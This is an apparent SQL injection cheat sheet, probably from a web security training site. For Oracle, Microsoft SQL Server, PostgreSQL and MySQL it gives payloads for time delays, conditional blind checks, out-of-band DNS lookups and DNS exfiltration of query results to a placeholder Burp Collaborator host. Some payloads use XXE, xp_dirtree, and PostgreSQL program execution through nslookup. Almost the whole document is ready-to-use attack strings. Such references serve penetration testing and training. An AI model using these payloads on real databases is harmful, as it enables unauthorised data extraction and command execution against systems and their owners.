 ## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle | `dbms_pipe.receive_message(('a'),10)` |
| --- | --- |
| Microsoft | `WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT pg_sleep(10)` |
| MySQL | `SELECT SLEEP(10)` |

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| --- | --- |
| Microsoft | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')` |

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

| Oracle |   (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`  The following technique works on fully patched Oracle installations, but requires elevated privileges:  `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| --- | --- |
| Microsoft | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL |   The following techniques work on Windows only:  `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`   `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

| Oracle | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |
| --- | --- |
| Microsoft | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` |
| PostgreSQL | `create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();` |
| MySQL | The following technique works on Windows only:   `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |